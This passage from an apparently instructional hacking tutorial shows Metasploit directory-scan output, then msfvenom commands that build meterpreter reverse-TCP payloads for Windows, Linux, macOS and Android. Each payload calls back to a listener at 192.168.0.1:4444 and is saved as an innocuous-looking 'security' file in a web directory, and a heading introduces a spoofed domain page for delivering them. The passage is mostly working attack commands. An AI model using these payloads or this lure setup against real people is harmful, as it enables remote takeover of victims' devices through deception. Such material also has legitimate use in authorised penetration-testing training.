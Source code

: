 ```shell
...
[+] Found http://192.168.0.1:80/data/ 404 (192.168.0.1)
[+] Found http://192.168.0.1:80/images/ 404 (192.168.0.1)
[+] Found http://192.168.0.1:80/styles/ 404 (192.168.0.1)
...

# exit msfconsole
msf6 auxiliary(scanner/http/dir_scanner) > quit
```

## The final attack with Metaslpoit and Msfvenom

### Generate some exploits

Okay, let's make the hands dirty.

```shell
# start msfconsole (without banner)
$ msfconsole -L

# search for reverse tcp
msf6 > search meterpreter_reverse_tcp

# create payload for Windows
msf6 > msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe > /var/www/html/data/security.exe

# create payload for Linux
msf6 > msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > /var/www/html/data/security.elf

# create payload for macOS
msf6 > msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f macho > /var/www/html/data/security.dmg

# create payload for Android
msf6 > msfvenom -p android/meterpreter_reverse_tcp -o /var/www/html/data/security.apk LHOST=192.168.0.1 LPORT=4444

# show directory structure (optional)
msf6 > tree /var/www/html/data/
├── security.apk
├── security.dmg
├── security.elf
└── security.exe
```

### Prepare the spoofed domain page

Content of file `/var/www/html/index.html`.

